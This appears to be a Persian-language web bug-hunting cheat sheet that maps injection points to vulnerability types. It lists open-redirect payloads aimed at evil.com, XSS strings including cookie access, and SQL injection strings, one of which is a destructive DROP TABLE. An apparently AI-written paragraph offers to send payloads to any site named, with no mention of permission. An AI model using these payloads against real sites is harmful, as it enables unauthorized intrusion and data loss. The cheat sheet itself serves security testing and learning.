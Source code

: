 # hunter payload

1. نقاط ورودی رایج برای تزریق پیلود
محل تزریق	توضیح	مثال
پارامترهای URL (Query Params)	هر چیزی بعد از ? یا &	/search?q=FUZZ
- Path Parameters	بخش‌هایی از URL که متغیر هستند	/user/FUZZ/profile
- POST Form Fields	فیلدهای HTML فرم‌ها	username=FUZZ
- Headers	هدرهای HTTP قابل تغییر	User-Agent: FUZZ
- Cookies	مقدار کوکی‌های Session یا custom	session=FUZZ
- JSON / XML Body	درخواست‌های API	{"id":"FUZZ"} یا <id>FUZZ</id>
- Upload Fields	آپلود فایل با محتوای مخرب	image.jpg حاوی پیلود
- WebSocket Messages	پیام‌های ارسال شده در WS	{"msg":"FUZZ"}
- Redirect URLs	پارامترهایی که URL مقصد را کنترل می‌کنند	/redirect?next=FUZZ
پرامترهای مخفی (Hidden Fields)	فیلدهای hidden در فرم‌ها	<input type="hidden" name="role" value="FUZZ">

2. برای هر نوع آسیب‌پذیری کجا تزریق کنیم؟
آسیب‌پذیری	نقاط ورودی مهم
- XSS	فرم‌ها، پارامتر URL، JSON، هدرهایی که در پاسخ نمایش داده می‌شوند
- SQL Injection	هر پارامتر که با دیتابیس تعامل دارد (فیلترها، سرچ، ورود، API)
- Open Redirect	پارامترهایی که مقصد URL را تعیین می‌کنند
- SSRF	ورودی‌هایی که URL را برای درخواست سمت سرور مشخص می‌کنند
- CSRF	فرم‌های حساس (تغییر رمز، ایمیل، نقش کاربر)
- XXE	ورودی XML در آپلود یا API
- Command Injection	ورودی‌هایی که در سیستم‌عامل پردازش می‌شوند
- File Upload	فرم آپلود، API آپلود، Drag & Drop آپلود
- LFI / RFI	پارامترهایی که مسیر فایل را مشخص می‌کنند
- IDOR	شناسه‌ها در URL یا Body که بدون چک مالکیت استفاده می‌شوند

3. نکات شکار سریع
FUZZ کردن: با ابزارهایی مثل ffuf یا burp intruder تمام پارامترها را با پیلود تست کنید.

تحلیل پاسخ: ببینید ورودی‌تان کجا و چطور بازتاب داده می‌شود.

بررسی DevTools: درخواست‌های شبکه و API endpoints را چک کنید.

نسخه‌های API: مسیرهای /v1/، /v2/ و test endpoints را هم بررسی کنید.

=======================================================================

برای پیدا کردن آسیبپذیری در یک سایت یا برنامه وب، باید بدانید کدام قسمتها و پارامترها ممکن است دچار ضعف و نقص امنیتی باشند تا روی آنها payload تزریق کنید. این نکات به شما کمک میکند محل مناسب برای ارسال payload را تشخیص دهید:

نقاط معمول برای ارسال payload جهت بررسی آسیبپذیری
پارامترهای URL

معمولاً پارامترهایی که ورودی کاربر را به صورت مستقیم دریافت میکنند و در URL ظاهر میشوند، مانند:
redirect=, url=, next=, callback=, return=, token=, id=, action=, page=

این پارامترها محل خوبی برای تست آسیبپذیریهای Open Redirect، SQL Injection، XSS و ... هستند.

فرمها و فیلدهای ورودی (POST یا GET)

فرمهای ورود، ثبتنام، جستجو، ارسال پیام و نظرات معمولاً به طور مستقیم دادهها را دریافت میکنند و باید بررسی شوند.

هدرهای HTTP

گاهی هدرهای درخواست مثل Referer, User-Agent, Cookie, X-Forwarded-For نیز محل برای تزریق payload هستند.

مسیرهای (Path) URL

بعضی آدرسها پارامترها را در بخش مسیر URL (مثل /user/12345 یا /product/edit/42) منتقل میکنند که باید آنها را نیز چک کنید.

پارامترهای AJAX و API

برای سایتهای مدرن APIهای مختلفی وجود دارد که پارامترهایی میگیرند، اینها اهمیت ویژهای دارند و باید payload روی آنها ارسال شود.

روشهای پیدا کردن محل مناسب
دسترسی به کد منبع یا مستندات API: اگر دارید، بررسی کنید کجاها ورودی کاربر دریافت میشود.

تحلیل لاگها و رفتار برنامه: ببینید کدام پارامترها تأثیر دارند یا جوابهای متفاوت میدهند.

استفاده از ابزارهای اسکن امنیتی: مانند Burp Suite، OWASP ZAP، که ورودیها و پارامترهای حساس را خودکار شناسایی میکنند.

تست پارامترهای مشکوک: روی پارامترهایی که نامهایی مرتبط با مسیر، ریدایرکت، توکن، ورود و مدیریت دارند بیشتر تمرکز کنید.

خلاصه
برای پیدا کردن آسیبپذیری، معمولا روی پارامترهای ورودی URL و فرمهای وب payload ارسال میشود. در آسیبپذیری Open Redirect معمولاً روی پارامترهایی مثل redirect, url, next و غیره باید تست انجام شود. در XSS معمولاً پارامترهایی که در خروجی HTML نمایش داده میشوند هدف هستند.

اگر سایت یا برنامه خاصی مد نظر دارید، بگویید تا کمک کنم کدام پارامترها یا بخشها احتمال آسیبپذیری بیشتری دارند و روی آنها payload مناسب را بفرستم.

=======================================================================

۱. لیست استاندارد پارامترهای رایج برای تست آسیبپذیری
نوع آسیبپذیری	پارامترهای رایج (نمونه)
- Open Redirect	===>>> redirect, url, next, return, target, callback, dest
- XSS ===>>>	q, search, name, message, comment, input, payload, text
- SQL Injection ===>>>	id, user, username, password, search, page, filter, item


=======================================================================


۲. payloadهای استاندارد برای Open Redirect
شماره	Payload نمونه	توضیح کوتاه
1	http://evil.com	آدرس URL ساده و مستقیم
2	//evil.com	استفاده از دامنه با دو اسلش
3	///evil.com	سه اسلش، دور زدن فیلترهای ساده
4	%2F%2Fevil.com	کدگذاری URL دو اسلش
5	%2F%5Cevil.com	ترکیب اسلش و بک اسلش کدگذاری شده
6	https:%2F%2Fevil.com	کدگذاری قسمتها در URL
7	https:/\evil.com	ترکیب اسلش و بک اسلش
8	//evil.com%00	استفاده از null byte برای قطع رشته
9	%EF%BC%8E%EF%BC%8E%2Fevil.com	استفاده از نقطه fullwidth و اسلش

=======================================================================

۳. payloadهای استاندارد برای XSS
شماره	Payload نمونه	توضیح کوتاه
1	<script>alert('XSS')</script>	سادهترین کد اجرای اسکریپت
2	"><script>alert(1)</script>	تست تزریق در فیلدهای HTML
3	'"><img src=x onerror=alert(1)>	تزریق با تگ img و خطا
4	<svg/onload=alert(1)>	استفاده از SVG جهت اجرا
5	<body onload=alert(1)>	اجرای اسکریپت هنگام بارگذاری صفحه
6	"><iframe src="javascript:alert(1)"></iframe>	تست iframe با کد جاوااسکریپت
7	javascript:alert(document.cookie)	تست اجرای دستور جاوااسکریپت داخل URL

=======================================================================


۴. payloadهای استاندارد برای SQL Injection
شماره	Payload نمونه	توضیح کوتاه
1	' OR '1'='1	شرط همواره درست برای نفوذ
2	' OR 1=1--	نفوذ با کامنت گذاری بقیه کوئری
3	' UNION SELECT NULL,NULL--	حمله یونین برای بازیابی داده
4	' AND (SELECT COUNT(*) FROM users) > 0--	تست وجود جدول کاربران
5	'; DROP TABLE users;--	حمله مخرب حذف جدول
6	" OR ""="	شرط همواره درست با کوتیشن دوتایی
7	' OR SLEEP(5)--	تست تأخیر (Blind SQL Injection)

=======================================================================

نکات مهم استفاده
همیشه تستها را روی پارامترهای ورودی که توسط برنامه پذیرش میشوند (مثل query string، فرمها، هدرها) انجام دهید.

برای Open Redirect، تمرکز بر پارامترهایی است که URL مقصد میگیرند.

برای XSS، فیلدهای ورودی که در خروجی HTML رندر میشوند هدف قرار گیرند.

برای SQL Injection، پارامترهایی که در کوئریهای دیتابیس استفاده میشوند مورد آزمایش باشند.

تستها را با ترکیبی از کدگذاری URL (مثل %3C, %22, %27) و فاصلههای غیرمعمول به منظور دور زدن فیلترها انجام دهید.


=======================================================================


